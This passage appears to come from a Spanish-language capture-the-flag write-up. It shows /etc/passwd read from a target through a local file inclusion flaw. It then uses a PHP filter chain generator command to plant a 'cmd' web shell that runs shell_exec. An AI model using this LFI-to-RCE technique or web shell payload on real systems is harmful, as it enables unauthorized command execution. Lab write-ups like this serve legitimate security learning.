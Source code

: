 ```
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
pedro:x:1001:1001::/home/pedro:/bin/bash
rosa:x:1002:1002::/home/rosa:/bin/bash
```

Haremos lo siguiente, utilizaremos `wrappers` para este `LFI` con este parametro de `love`.

### Wrappers de LFI

URL\_Script = https://github.com/synacktiv/php\_filter\_chains\_oracle\_exploit/blob/main/filters\_chain\_oracle\_exploit.py

Si queremos por ejemplo crear un parametro llamado `cmd` que ejecute cualquier comando que le pongamos, seria de la siguiente forma...

```
$ python3 php_filter_chain_generator.py --chain '<?php echo shell_exec($_GET["cmd"]);?>'
[+] The following gadget chain will generate the following code : <?php echo shell_exec($_GET["cmd"]);?> (base64 value: PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWyJjbWQiXSk7Pz4)
```